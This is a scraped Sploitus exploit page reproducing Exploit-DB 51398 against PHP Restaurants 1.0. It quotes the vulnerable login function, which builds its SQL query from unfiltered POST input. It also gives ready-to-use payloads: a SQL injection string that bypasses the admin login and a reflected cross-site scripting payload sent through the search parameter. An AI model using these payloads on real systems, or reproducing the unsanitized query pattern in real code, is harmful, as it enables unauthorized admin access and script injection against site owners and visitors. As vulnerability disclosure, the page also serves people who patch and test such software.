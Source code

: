 ```yaml
---
title: PHP Restaurants 1.0 - SQLi Authentication Bypass &amp; Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=EDB-ID:51398&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-03
fetch_date: 2025-10-04T11:38:05.096891
---
```


# PHP Restaurants 1.0 - SQLi Authentication Bypass &amp; Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for PHP Restaurants 1.0 - SQLi Authentication Bypass & Cross Site Scripting

2023-05-02 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51398
# Exploit Title: PHP Restaurants 1.0 - SQLi Authentication Bypass & Cross Site Scripting (XSS)
# Google Dork: None
# Date: 4/26/2023
# Exploit Author: Or4nG.M4n
# Vendor Homepage: https://github.com/jcwebhole
# Software Link: https://github.com/jcwebhole/php_restaurants
# Version: 1.0

functions.php

function login(){
global $conn;
$email = $_POST['email'];
$pw = $_POST['password'];

$sql = "SELECT * FROM `users` WHERE `email` = '".$email."' AND `password` =
'".md5($pw)."'"; <-- there is No filter to secure sql query
parm[email][password]
$result = $conn->query($sql);
if ($result->num_rows > 0) {
while($row = $result->fetch_assoc()) {
setcookie('uid', $row['id'], time() + (86400 * 30), "/"); // 86400 = 1 day
header('location: index.php');
}
} else {
header('location: login.php?m=Wrong Password');
}

}

login bypass at admin page /rest1/admin/login.php

email & password : ' OR 1=1 --             <- add [space] end of the payload

cross site scripting main page /index.php

xhttp.open("GET", "functions.php?f=getRestaurants<?php
  if(isset($_GET['search'])) echo '&search='.$_GET['search']; <-- here we
can insert our xss payload
?>
  ", true);
xhttp.send();

</script> <-- when you insert your'e payload don't forget to add </script>
like

xss payload : </script><img onerror=alert(1) src=a>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)